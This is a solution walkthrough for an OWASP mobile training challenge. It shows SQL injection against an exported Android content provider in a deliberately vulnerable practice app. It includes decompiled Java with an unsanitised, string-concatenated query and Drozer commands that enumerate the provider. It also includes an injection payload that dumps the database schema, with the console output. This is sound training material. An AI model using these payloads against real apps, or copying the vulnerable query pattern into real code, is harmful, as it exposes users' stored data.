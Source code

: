 # OMTG-Android - 18. SQL Injection Content Provider - Solution

> MSTG-PLATFORM-2: "All inputs from external sources and the user are validated and if necessary sanitized. This includes data received via the UI, IPC mechanisms such as intents, custom URLs, and network sources."

**Summary of the challenge:** The application is exposing a function used for querying student data from database through a [content provider](https://developer.android.com/guide/topics/manifest/provider-element) to the user and other applications. No user input can be handled as trusted data source without validation, otherwise the implemented functionality can be exploited via malicious code. The challenge application is vulnerable against SQL injection through the exposed content provider, which means the user input taints the implemented database query with an SQL statement. A malicious application can obtain the SQLite database records (student name and grade) via SQL injection attack. 

The affected content provider `sg.vp.owasp_mobile.provider.College` is defined in the `AndroidManifest.xml` file and accessible to any application if the device is running Android 4.1 or older version. The default value of `android:exported` attribute is `true` on Android API 16 or below, providing accessible content provider functionality for other applications.

Snippet of the `AndroidManifest.xml` file:
```xml
<provider android:name="sg.vp.owasp_mobile.OMTG_Android.OMTG_CODING_003_SQL_Injection_Content_Provider_Implementation" android:authorities="sg.vp.owasp_mobile.provider.College"/>
```

Since the source of the application is not obfuscated, it is possible to obtain the implemented database query and other important methods by decompiling the APK file using [JADX-GUI](https://github.com/skylot/jadx):
```java
public class OMTG_CODING_003_SQL_Injection_Content_Provider_Implementation extends ContentProvider {
  static final Uri CONTENT_URI = Uri.parse(URL);
  static final String CREATE_DB_TABLE = " CREATE TABLE students (_id INTEGER PRIMARY KEY AUTOINCREMENT,  name TEXT NOT NULL,  grade TEXT NOT NULL);";
  static final String DATABASE_NAME = "College";
  static final int DATABASE_VERSION = 1;
  static final String GRADE = "grade";
  static final String NAME = "name";
  static final String PROVIDER_NAME = "sg.vp.owasp_mobile.provider.College";
  static final int STUDENTS = 1;
  private static HashMap<String, String> STUDENTS_PROJECTION_MAP = null;
  static final String STUDENTS_TABLE_NAME = "students";
  static final int STUDENT_ID = 2;
  static final String URL = "content://sg.vp.owasp_mobile.provider.College/students";
  static final String _ID = "_id";
  static final UriMatcher uriMatcher = new UriMatcher(-1);
  private SQLiteDatabase db;

  [...]

  public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
    SQLiteQueryBuilder qb = new SQLiteQueryBuilder();
    qb.setTables(STUDENTS_TABLE_NAME);
    switch (uriMatcher.match(uri)) {
      case 1:
        qb.setProjectionMap(STUDENTS_PROJECTION_MAP);
        break;
      case 2:
        qb.appendWhere("_id=" + ((String) uri.getPathSegments().get(1)));
          Log.e("appendWhere", ((String) uri.getPathSegments().get(1)).toString());
          break;
      default:
        throw new IllegalArgumentException("Unknown URI " + uri);
    }
    if (sortOrder == null || sortOrder == "") {
      sortOrder = NAME;
    }
    Cursor c = qb.query(this.db, projection, selection, selectionArgs, null, null, sortOrder);
    c.setNotificationUri(getContext().getContentResolver(), uri);
    return c;
  }
  [...]
}
```

Retrieving entry from the database using the application (intended functionality):

<img src="https://user-images.githubusercontent.com/55597077/67484830-c5f56d80-f660-11e9-959b-7bb665e45950.png" width="296">

Due to the `_id` input is not validated (any input string is interpreted), the implemented query can lead to SQL injection:
`qb.appendWhere("_id=" + ((String) uri.getPathSegments().get(1)));`

The vulnerability can be exploited by any other application on the device. [Drozer](https://github.com/FSecureLABS/drozer) is a security assessment framework for testing Android applications. It provides scanning features for vulnerabilities by taking the role of a native Android application and interacting with Dalvik Virtual Machine, other applications' IPC endpoints and the OS beneath.

Install Drozer Agent apk (Drozer Server) on the Android device and Drozer client on a Windows/Linux or MacOS system to interact with the mobile device. Start the server on the device by pushing the `On` button in the Drozer Agent then issue the following commands from the host system to launch the console:
```bash
adb forward tcp:31415 tcp:31415
c:\Python2\python.exe c:\Python2\Scripts\drozer console connect
```

List all of the installed packages with `run app.package.list` command, then identify the attack surface with the `run app.package.attacksurface sg.vp.owasp_mobile.omtg_android` command.

One content provider is exported.

To determine the URI of the exported content provider which can be queried, send the `run scanner.provider.finduris -a sg.vp.owasp_mobile.omtg_android` command.

To obtain the database entries, invoke the content provider using the exposed URI `run app.provider.query content://sg.vp.owasp_mobile.provider.College/students`. 

The `content://` scheme is a prefix which identifies a content URI pointing to an Android content provider. The authority `sg.vp.owasp_mobile.provider.College` identifies the provider itself. the Android operating system looks up the authority in its list of registered providers and their authorities. The substring `students` is a path, which can be used to identify subsets of the provider data.

Drozer console output:
```cmd
C:\>adb forward tcp:31415 tcp:31415
31415

C:\>c:\Python2\python.exe c:\Python2\Scripts\drozer console connect
Selecting f7f9ba94507a6afc (unknown sdk 4.1.2)

            ..                    ..:.
           ..o..                  .r..
            ..a..  . ....... .  ..nd
              ro..idsnemesisand..pr
              .otectorandroidsneme.
           .,sisandprotectorandroids+.
         ..nemesisandprotectorandroidsn:.
        .emesisandprotectorandroidsnemes..
      ..isandp,..,rotectorandro,..,idsnem.
      .isisandp..rotectorandroid..snemisis.
      ,andprotectorandroidsnemisisandprotec.
     .torandroidsnemesisandprotectorandroid.
     .snemisisandprotectorandroidsnemesisan:
     .dprotectorandroidsnemesisandprotector.

drozer Console (v2.4.4)
dz> run app.package.list
android (Android System)
com.android.backupconfirm (com.android.backupconfirm)
com.android.browser (Browser)
[...]
com.mwr.dz (drozer Agent)
sg.vp.owasp_mobile.omtg_android (Attack me if u can)
dz> run app.package.attacksurface sg.vp.owasp_mobile.omtg_android
Attack Surface:
  1 activities exported
  0 broadcast receivers exported
  1 content providers exported
  0 services exported
    is debuggable
dz> run scanner.provider.finduris -a sg.vp.owasp_mobile.omtg_android
Scanning sg.vp.owasp_mobile.omtg_android...
Able to Query    content://sg.vp.owasp_mobile.provider.College/students
Unable to Query  content://sg.vp.owasp_mobile.provider.College/
Able to Query    content://sg.vp.owasp_mobile.provider.College/students/
Unable to Query  content://sg.vp.owasp_mobile.provider.College

Accessible content URIs:
  content://sg.vp.owasp_mobile.provider.College/students/
  content://sg.vp.owasp_mobile.provider.College/students
dz> run app.provider.query content://sg.vp.owasp_mobile.provider.College/students
| _id | name           | grade |
| 3   | David Williams | A     |
| 1   | John Smith     | B     |
| 4   | Richard Davis  | A+    |
| 2   | Robert Johnson | C     |
```

Type `run scanner.provider.injection -a sg.vp.owasp_mobile.omtg_android` to reveal SQL injection in the content provider. Send custom SQL query to expose the database tables using `run app.provider.query content://sg.vp.owasp_mobile.provider.College/students --projection "* FROM SQLITE_MASTER WHERE type='table';--"` statement.

```cmd
dz> run scanner.provider.injection -a sg.vp.owasp_mobile.omtg_android
Scanning sg.vp.owasp_mobile.omtg_android...
Not Vulnerable:
  content://sg.vp.owasp_mobile.provider.College
  content://sg.vp.owasp_mobile.provider.College/

Injection in Projection:
  content://sg.vp.owasp_mobile.provider.College/students/
  content://sg.vp.owasp_mobile.provider.College/students

Injection in Selection:
  content://sg.vp.owasp_mobile.provider.College/students/
  content://sg.vp.owasp_mobile.provider.College/students
dz> run app.provider.query content://sg.vp.owasp_mobile.provider.College/students --projection "* FROM SQLITE_MASTER WHERE type='table';--"
| type  | name             | tbl_name         | rootpage | sql                                                                                                      |
| table | android_metadata | android_metadata | 3        | CREATE TABLE android_metadata (locale TEXT)                                                              |
| table | students         | students         | 4        | CREATE TABLE students (_id INTEGER PRIMARY KEY AUTOINCREMENT,  name TEXT NOT NULL,  grade TEXT NOT NULL) |
| table | sqlite_sequence  | sqlite_sequence  | 5        | CREATE TABLE sqlite_sequence(name,seq)                                                                   |
```

As it was noted before, the issue can be exploited only on Android version 4.1 or below. Since the default value of the `android:exported` attribute is `true` without explicit definition in the manifest.
